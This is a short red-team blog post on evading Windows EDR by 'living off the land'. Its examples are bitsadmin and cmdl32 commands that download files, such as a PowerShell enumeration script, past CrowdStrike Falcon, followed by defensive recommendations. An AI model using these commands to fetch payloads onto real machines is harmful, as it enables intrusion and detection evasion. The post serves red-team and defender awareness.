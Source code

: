 ```yaml
---
title: Living off the Land
author: TDSSEC
date: 2022-08-04 00:34:00 +0800
categories: [Red Team, Living Off the Land]
tags: [Red Team]
---
```

# Avoiding EDR/MDR Detection
You may have heard the term **‘living off the land’** where attackers that have compromised a device within your network will try to evade being discovered or blocked by your security solutions. Perhaps you have an EDR/MDR solution, logging capabilities, or even your own Security Operations Centre (SOC) keeping an eye out for intruders. But is this enough?

Attackers that are living off the land realize that today’s security solutions are constantly evolving, monitoring processes and programs being executed in real-time, sandboxing the unknown, and looking to see if anything malicious could be happening. So what happens if a known vendor signed process or program is executed? Will your security solution detect if something malicious is secretly happening?

On many engagements which utilize **Windows Operating Systems**, it has been possible to evade detection of Antivirus, as well as EDR solutions, including **Windows Defender** and **CrowdStrike Falcon** by leveraging Microsoft signed and verified tools that reside on the system.

### The LOLBAS-Project
> [Scripts, Binaries and Libraries](https://lolbas-project.github.io/#)

## Examples
> Windows 10 x64 Machine  
Crowdstrike Falcon MDR installed

For example, if an attacker tries to download or copy a malicious file to a compromised machine using FTP, a web browser, a PowerShell or CMD command, the chances of this being detected can be extremely high. Especially when the file to be downloaded is a PowerShell script from GitHub which assists with Active Directory enumeration...

![Attempted download of external resource via Web Browser](/2022-08-04-living-off-the-land/access-denied.png){: width="500" height="102"}

To evade detection, one _built-in_ tool that _may_ be leveraged is the **_bitsadmin_** tool, used for managing background transfers.

You can find this tool in the following file paths:

    C:\Windows\System32\bitsadmin.exe
    C:\Windows\SysWOW64\bitsadmin.exe

In this scenario, it was possible to successfully download the PowerShell script from GitHub, executing a command similar to:

`bitsadmin /create 1 bitsadmin /addfile 1 file-URL save-location`  
`bitsadmin /RESUME 1 bitsadmin /complete 1`

![Attempted download of external resource via Web Browser](/2022-08-04-living-off-the-land/bitsadmin.png){: width="500" height="102"}  

There are many other tools that can be used here. Another example is `cmdl32.exe` which by default is located here:

    C:\Windows\System32\cmdl32.exe
    C:\Windows\SysWOW64\cmdl32.exe

An attacker may be able to issue a CMD command as such to download a file from a remote host whilst evading the EDR solution which believes only a legitimate process is running.

A command as simple as:

`cmdl32 /vpn /lan %cd%\config`

## Conclusion

With there being just a few examples, what are the recommendations?

1. First, have security audits and red team scenarios executed. The goal in mind is to identify methods attackers can use to evade your existing security controls.

2. Secondly, review your logging and monitoring procedures. Ensure that also built-in tools that are signed by Microsoft are being added to the watch lists.

3. Last of all, not just one solution may be enough to stop the most experienced of attackers. Defense in depth is recommended, so having multiple security solutions in place might just help keep you one step in front.
